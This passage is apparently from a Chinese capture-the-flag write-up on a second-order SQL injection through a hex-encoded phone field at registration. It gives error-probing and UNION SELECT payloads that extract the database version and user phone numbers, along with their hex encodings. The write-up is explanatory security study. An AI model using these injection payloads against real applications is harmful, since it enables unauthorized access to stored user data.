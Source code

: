 返回 0 。

我们继续注册，使用一个报错`payload`，看页面是否支持报错注入：

`123456' " *SELECT-x` => `0x313233343536272022202a53454c4543542d78`


![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x08.png)

可以看到报错信息了，但是不是我们期望的mysql->error。

但是不要灰心，已经找到突破点了，通过十六进制转换，我们可以把`phone`带入SQL语句。

写一个`UNION`试试吧~ 

`123456' UNION SELECT version() FROM dual where 's'='s`  => `0x3132333435362720554e494f4e2053454c4543542076657273696f6e28292046524f4d206475616c207768657265202773273d2773`

![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x09.png)

OK，数据版本出来了，继续注入表以及数据库名。 但是当时我没有去选择这个办法，而是通过搜集的表单信息来当做字段名，这样节省时间，碰运气。

`123456' UNION SELECT phone FROM user where 'admin'='admin` => `0x3132333435362720554e494f4e2053454c4543542070686f6e652046524f4d2075736572207768657265202761646d696e273d2761646d696e`

![check.php](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x10.png)

## 0x03 过程分析

这种逻辑型的二次SQL注入，的确是扫描器、工具难以发现，如果再加个验证码，难度会更高一些。

寻找突破点还是要积累更多的经验

## 0x04 过程演示

<p>
<video src="https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/CTF.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>
</p>





